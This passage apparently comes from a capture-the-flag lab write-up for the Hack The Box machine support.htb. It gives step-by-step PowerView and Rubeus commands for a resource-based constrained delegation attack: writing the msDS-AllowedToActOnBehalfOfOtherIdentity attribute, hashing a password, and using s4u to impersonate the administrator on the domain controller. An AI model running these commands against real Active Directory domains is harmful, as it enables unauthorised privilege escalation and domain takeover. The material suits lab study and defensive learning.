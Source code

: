 	3. `$SD.GetBinaryForm($SDBytes, 0)`
4. Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case:
	1. `Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
		1. This will give us an error, but it's fine. 
		2. $TargetComputer is the suggested variable from the guidance, but it could be anything. 
5. We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
	1. `.\Rubeus.exe hash /password:party123`
		1. **This will print out the rc4 hash you need for the next command. **
		2. Note that you can also run it with user and domain to get the AES and DES hash types:
		3. `.\Rubeus.exe hash /password:party123 /user:poppoppc /domain:support.htb`
6. And finally we can use Rubeus' `s4u` module to get a service ticket for the service name (sname) we want to "pretend" to be "admininstrator" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the dc.support.htb computer:
	1. `.\Rubeus.exe s4u /user:poppoppc$ /rc4:B889C26C89A8AAEDD4254AB967DE1EF7 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt`
		1. Again substitute your own user and rc4 hash for this. Obviously here we are using dc.support.htb because that is the computer we want control of, but for another machine it would be different. 
		2. *Side note - this didn't work for a while because I had the computer named dc01.support.htb initially. Oops. 

There's a lot of steps here, but the result is a base64 encoded ticket.kirbi for SPN `cifs/dc.support.htb`. The end result is actually going to print out three tickets, but we need to use the last one. The output looks like this:
